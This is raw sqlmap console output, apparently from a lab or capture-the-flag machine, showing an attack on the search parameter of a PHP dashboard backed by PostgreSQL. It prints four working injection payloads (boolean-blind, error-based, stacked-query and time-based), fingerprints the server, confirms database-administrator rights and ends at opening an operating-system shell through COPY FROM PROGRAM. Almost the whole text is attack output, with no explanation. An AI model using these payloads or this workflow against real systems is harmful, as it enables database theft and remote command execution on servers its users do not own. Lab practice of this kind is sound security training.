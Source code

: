 ```
[19:22:09] [INFO] heuristic (basic) test shows that URI parameter '#1*' might be injectable (possible DBMS: 'PostgreSQL')
[19:22:10] [INFO] heuristic (XSS) test shows that URI parameter '#1*' might be vulnerable to cross-site scripting (XSS) attacks
[19:22:10] [INFO] testing for SQL injection on URI parameter '#1*'
it looks like the back-end DBMS is 'PostgreSQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
for the remaining tests, do you want to include all tests for 'PostgreSQL' extending provided level (1) and risk (1) values? [Y/n] 
[19:22:21] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[19:22:22] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[19:22:23] [INFO] testing 'Generic inline queries'
[19:22:23] [INFO] testing 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)'
[19:22:23] [INFO] URI parameter '#1*' appears to be 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)' injectable (with --string="Sed")
[19:22:23] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[19:22:23] [INFO] URI parameter '#1*' is 'PostgreSQL AND error-based - WHERE or HAVING clause' injectable 
[19:22:23] [INFO] testing 'PostgreSQL inline queries'
[19:22:23] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[19:22:23] [WARNING] time-based comparison requires larger statistical model, please wait..... (done)
[19:22:34] [INFO] URI parameter '#1*' appears to be 'PostgreSQL > 8.1 stacked queries (comment)' injectable 
[19:22:34] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[19:23:10] [INFO] URI parameter '#1*' appears to be 'PostgreSQL > 8.1 AND time-based blind' injectable 
[19:23:10] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 34 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: http://10.129.175.136:80/dashboard.php?search=' AND (SELECT (CASE WHEN (3176=3176) THEN NULL ELSE CAST((CHR(99)||CHR(87)||CHR(108)||CHR(104)) AS NUMERIC) END)) IS NULL-- fTpV

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: http://10.129.175.136:80/dashboard.php?search=' AND 7537=CAST((CHR(113)||CHR(120)||CHR(113)||CHR(112)||CHR(113))||(SELECT (CASE WHEN (7537=7537) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(106)||CHR(112)||CHR(107)||CHR(113)) AS NUMERIC)-- cYQP

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: http://10.129.175.136:80/dashboard.php?search=';SELECT PG_SLEEP(5)--

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: http://10.129.175.136:80/dashboard.php?search=' AND 2646=(SELECT 2646 FROM PG_SLEEP(5))-- jVgs
---
[19:23:23] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Ubuntu 20.04 or 20.10 or 19.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: PostgreSQL
[19:23:24] [INFO] fingerprinting the back-end DBMS operating system
[19:23:24] [WARNING] reflective value(s) found and filtering out
[19:23:24] [INFO] the back-end DBMS operating system is Linux
[19:23:24] [INFO] testing if current user is DBA
[19:23:25] [INFO] retrieved: '1'
[19:23:25] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[19:23:25] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
```